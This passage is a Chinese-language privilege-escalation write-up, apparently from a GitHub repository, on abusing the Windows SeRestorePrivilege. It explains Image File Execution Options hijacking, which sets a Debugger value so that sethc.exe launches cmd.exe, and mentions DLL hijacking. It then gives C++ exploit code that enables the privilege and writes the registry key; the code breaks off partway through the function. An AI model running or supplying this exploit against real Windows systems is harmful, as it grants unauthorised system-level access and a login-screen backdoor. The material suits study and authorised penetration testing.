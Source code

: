 SeRestorePrivilege
------------------

### 禁止任何公众号/营销号转发

SeRestorePrivilege 特权在 Microsoft 官方文档中被描述为 “*Restore files and directories*”，拥有该特权的任何进程被授予对系统上任何文件或对象的所有写访问控制，而不管为文件或对象指定的访问控制列表（ACL）。 此外，此特权允许其持有进程或线程更改文件的所有者。

在通过 API 利用此特权时，必须向支持的 API 提供相应的 `_BACKUP_` 标志，例如 `CreateFile()` 函数需要指定 `FILE_FLAG_BACKUP_SEMANTICS` 标志，`RegCreateKeyEx()` 函数需要指定 `REG_OPTION_BACKUP_RESTORE` 标志。这提示内核请求进程可能启用了 SeBackupPrivilege 或 SeRestorePrivilege，并无视 ACL 检查。

利用该特权任意写入 HKLM 注册表能够实现特权提升。例如，我们选择使用 Image File Execution Options 键，用于在系统上调试软件。启动系统二进制文件时，如果在以下注册表位置中存在一个条目并且它包含一个调试器键值，它将执行设置的条目，实现映像劫持。

```powershell
 HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options
```

此外，还可以将 DLL 放入系统文件夹中以进行 DLL 劫持、覆盖关键系统资源或修改其他服务等方式实现特权提升。

下面给出可供参考的利用代码，首先通过 `AdjustTokenPrivileges()` 函数为当前进程开启 SeRestorePrivilege 特权，然后通过上述两种方法滥用该特权。如果执行时 `-e` 参数为 “Dubugger”，则调用 `RegCreateKeyExW()` 函数在 `Image File Execution Options` 注册表下创建一个子项，然后用 `RegSetValueExW()` 函数为指定的程序（默认为 sethc.exe）设置 Debugger 键实现映像劫持（默认将 Debugger 键设为 C:\\Windows\\System32\\cmd.exe）。如果 `-e` 参数为 “File”，则通过 `CreateFileW()` 函数创建文件进行 DLL 劫持、覆盖关键系统资源或修改其他服务等。

- SeRestorePrivilege.cpp

```c++
#include <Windows.h>
#include <iostream>
#include <stdio.h>

#define SIZE 200000

BOOL ExploitSeRestorePrivilege(LPCWSTR expType, LPCWSTR program, LPCWSTR command, LPCWSTR sourceFile, LPCWSTR destFile)
{
    BOOL status = FALSE;
    DWORD lResult;
    HKEY hKey;
    HANDLE hSource, hDestination;
    char buffer[SIZE + 1];
    DWORD dwBytesRead, dwBytesWrite;

    if (!wcscmp(expType, L"Dubugger"))
    {
        // Creates the specified registry key.
        lResult = RegCreateKeyExW(
            HKEY_LOCAL_MACHINE, 
            std::wstring(L"SOFTWARE\\Microsoft\\Windows NT\\CurrentVersion\\Image File Execution Options\\").append(program).c_str(), 
            0, 
            NULL,
            REG_OPTION_BACKUP_RESTORE,
            KEY_SET_VALUE, 
            NULL, 
            &hKey, 
            NULL
        );
        if (lResult != ERROR_SUCCESS)
        {
            wprintf(L"[-] RegCreateKeyExW Error: [%u].\n", lResult);
            return status;
        }
        // Sets the data and type of a specified value under a registry key.
```